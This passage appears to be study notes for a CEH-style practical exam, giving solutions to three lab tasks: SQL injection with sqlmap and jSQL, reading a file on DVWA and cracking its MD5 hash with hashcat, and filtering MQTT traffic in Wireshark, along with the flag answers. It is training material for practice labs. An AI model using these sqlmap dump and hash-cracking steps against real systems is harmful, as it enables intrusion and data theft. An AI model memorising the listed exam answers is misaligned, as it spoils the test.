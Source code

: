 ```bash
```

15.Perform SQL injection attack on a web application, cybersec.cehorg.com, available at 172.20.0.22. Find the value in the Flag column in one of the DB tables and enter it as the answer.

```bash
#Get all databases using sqlmap
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
#Get tables from a selected database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name --tables 
#Get all columns from a selected table_name in the database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name --columns
#Dump the data from the columns 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name -C column_name --dump
#ykPje8Qb
---
1. Go to blog page in given website cybersec.cehorg.com .
2. Copy the url with parameter id.
3. And go to JSQL injection tool in parrot os.
4. Then past the url and click attack you will get all databases.
5. Now search the flag database copy the flag and paste
```

16.A file named Hash.txt has been uploaded through DVWA (http://172.20.0.16:8080/DVWA). The file is located in the “C:\wamp64\www\DVWA\hackable\uploads\” directory. Access the file and crack the MD5 hash to reveal the original message. Enter the decrypted message as the answer. You can log into the DVWA using the credentials admin/password.

```bash
type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
The site is vulnerable to directory traversal and local file inclusion
Navigate to the location of the file and open it
copy the hash value and use either crackstation from the internet to crack it or https://hashes.com/en/decrypt/hash
#Secret123
1. Open the url given and login with given details. Task-8
2. After login http://172.20.0.16/DWVA/hackable/uploads/
3. They you see files open it and copy the hash value go to the hashes.com/en/decrypt/hash. Or try below.
4. hash-identifier paste the text and see the type of hash and then hashcat -h | grep MD5
5. hashcat -m 0 hash.txt /Desktop/word list/urser.txt
```

17.Analyze the traffic capture from an IoT network located in the Documents folder of the "EH Workstation – 1" (ParrotSecurity) machine, identify the packet with IoT Publish Message, and enter the message length as the answer.

```bash
Open the .pcap file with wireshark
Type “MQTT” in the filter bar and press enter
Look for MQTT publish messages in the packet list. 
MQTT publish messages typically have a PUBLISH message type.
Get the message length
#37
---
1. Open IOT capture file in wireshark. Filter; MQTT and find length of the packet in the lower pane.
2. Open in wireshark and apply the filter as mqtt and see the public message and then go to down panel
open and see the message.
```
